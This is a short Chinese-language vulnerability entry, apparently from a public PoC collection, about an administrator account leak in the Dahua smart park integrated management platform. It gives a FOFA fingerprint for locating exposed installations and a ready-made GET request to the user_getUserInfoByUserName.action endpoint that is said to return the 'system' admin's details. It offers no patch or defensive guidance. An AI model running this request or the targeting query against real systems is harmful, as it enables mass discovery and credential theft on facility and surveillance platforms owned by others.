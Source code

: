 # 大华 智慧园区综合管理平台 user_getUserInfoByUserName.action接口管理员账户泄露

## 漏洞描述

大华 智慧园区综合管理平台 user_getUserInfoByUserName.action接口管理员账户泄露

## 漏洞影响

```
All
```

## FOFA

```
fid="+GO1WAVdxlPk6WCq1FIWDg=="
```

## 漏洞复现

登陆页面

![image-20230816111134054](img/image-20230816111134054.png)

验证POC

```
GET /admin/user_getUserInfoByUserName.action?userName=system
```

![image-20230816111326869](img/image-20230816111326869.png)

## Python poc

```
暂无
```

